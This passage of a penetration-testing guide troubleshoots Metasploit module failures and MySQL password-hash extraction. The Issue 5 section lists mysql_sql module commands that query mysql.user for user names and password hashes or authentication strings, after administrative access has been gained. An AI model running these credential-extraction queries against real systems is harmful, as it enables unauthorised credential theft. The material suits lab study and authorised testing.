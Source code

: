 ### 🛠️ Issue 4: Metasploit Module Failures
**Problem**: Modules crash, hang, or return errors

**Prevention and Solutions:**
```bash
# Solution 1: Update Metasploit database
msfdb reinit

# Solution 2: Update module definitions
msfupdate

# Solution 3: Restart PostgreSQL service
systemctl restart postgresql
msfdb start

# Solution 4: Check module syntax
use auxiliary/scanner/mysql/mysql_version
show options
show missing

# Solution 5: Manual verification
mysql -h target -u root -p -e "SELECT version();"
```

### 🔧 Issue 5: Hash Extraction Failures
**Problem**: Cannot extract password hashes despite administrative access

**Troubleshooting Approach:**
```bash
# Method 1: Verify table access
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT COUNT(*) FROM mysql.user;"
run

# Method 2: Check password column name (varies by MySQL version)
use auxiliary/admin/mysql/mysql_sql
set SQL "DESCRIBE mysql.user;"
run

# Method 3: Manual hash extraction
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT host,user,password FROM mysql.user WHERE password != '';"
run

# Method 4: Alternative for newer MySQL versions
use auxiliary/admin/mysql/mysql_sql
set SQL "SELECT host,user,authentication_string FROM mysql.user;"
run
```

---
